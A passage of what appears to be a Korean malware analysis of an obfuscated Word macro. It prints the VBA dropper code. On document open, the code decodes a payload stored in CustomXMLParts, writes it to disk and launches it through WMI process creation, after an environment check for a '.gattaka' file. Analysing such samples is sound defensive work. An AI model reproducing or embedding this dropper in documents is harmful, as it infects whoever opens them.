 이 코드는 난독화가 되어 있는 코드이며 다음과 같은 분석 순서를 정해서 분석 시작

    1. 코드 시작 찾기 
    2. Main 함수 찾기 
    3. 디코딩 방식 분석 
    4. Main 함수 분석 

## 코드 시작 찾기

이코드는 DOCM에 내장된 코드로 매크로를 사용하며 Document_open()을 이용

문서가 시작되면 자동으로 실행되도록 설정해 놓았다.

```vb
Private Sub Document_Open()
    zwxcnxajcshyp True
End Sub
```

이 부분이 코드의 시작이고 zwxcnxajcshyp 함수가 Main 함수로 추측된다.

## Main 함수 찾기 

```vb
Private Sub zwxcnxajcshyp(zdhyapqsagz As Boolean)
    Const merrdjtosyhjjuraz = "166157191179213210202213196208167196215196191"
    Const iujnoejlhsccsg = "218204209208202208215214157222204208211200213214210209196215204210209175200217200207160204208211200213214210209196215200224132191191145191213210210215191198204208217149"
    Const qpwyadnvluauprq = "186204209150149194179213210198200214214182215196213215216211"
    Const lwflmkaqbtsalhmvh = "218204209208202208215214157213210210215191198204208217149157186204209150149194179213210198200214214"
    Const ichejlnhmywnfzndkdg = "203215215211157146146207210198196207203210214215146"
    Dim pnjbsrngsgckjayoasd() As Byte
    Dim diowrynmsjektmzbl As String
    Dim nvplchnzsnuzfpoy As String
    If Dir(".gattaka") <> "" Then
        MsgBox "Obsolete environment, please, update", vbInformation
    Else
        If zdhyapqsagz Then
            pnjbsrngsgckjayoasd = tylkftcicrjxfvkh(ActiveDocument.CustomXMLParts(rrhzspxkphvvy(ichejlnhmywnfzndkdg)).SelectSingleNode("/").Text)
            diowrynmsjektmzbl = lcjsxjbkldksstie
            raeozmfjnymq rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl, pnjbsrngsgckjayoasd, False
            pnjbsrngsgckjayoasd = rrhzspxkphvvy(merrdjtosyhjjuraz)
            Set fhfcsnunstz = GetObject(rrhzspxkphvvy(iujnoejlhsccsg))
            Set xydisndhrfnkrmnael = fhfcsnunstz.Get(rrhzspxkphvvy(qpwyadnvluauprq))
            Set ieupzwunaig = xydisndhrfnkrmnael.SpawnInstance_
            Set mpuduxzmupgceh = GetObject(rrhzspxkphvvy(lwflmkaqbtsalhmvh))
            nvplchnzsnuzfpoy = rrhzspxkphvvy("213216209199207207150149131") + rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl + rrhzspxkphvvy("143204209204215")
            vdibilucsvcvqrqhgbyy = mpuduxzmupgceh.Create(nvplchnzsnuzfpoy, Null, ieupzwunaig, uyyuhnoffydfft)
        Else
        End If
    End If
End Sub
```
